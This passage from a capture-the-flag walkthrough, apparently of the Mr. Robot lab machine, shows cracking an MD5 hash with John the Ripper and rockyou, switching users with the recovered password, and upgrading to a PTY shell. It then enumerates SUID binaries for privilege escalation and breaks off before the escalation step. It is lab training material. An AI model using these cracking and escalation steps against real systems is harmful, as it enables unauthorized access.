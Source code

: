 ### Crack MD5 with John
```js
john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 hash
..............
abcdefghijklmnopqrstuvwxyz (?)
1g 0:00:00:00 DONE (2025-10-10 08:14) 100.0g/s 4051Kp/s 4051Kc/s
..............
```

Found password: `abcdefghijklmnopqrstuvwxyz`

After that, switch to the `robot` user to read the key file:
```js
$ su robot
Password: abcdefghijklmnopqrstuvwxyz
```

Make the shell semi-interactive with Python:

>|**python -c 'import pty; pty.spawn("/bin/bash")'**

```js
robot@ip-10-10-186-36:~$ cat key-2-of-3.txt
822c73956184f694...........
```

Now we have 2 keys. I think the last one is in the root directory, so let's proceed with privilege escalation.

## Privilege Escalation

### System Exploration
Find SUID binaries:
```js
robot@ip-10-10-186-36:~$ find / -perm -u=s -type f 2>/dev/null
/bin/umount
/bin/mount
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/pkexec
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

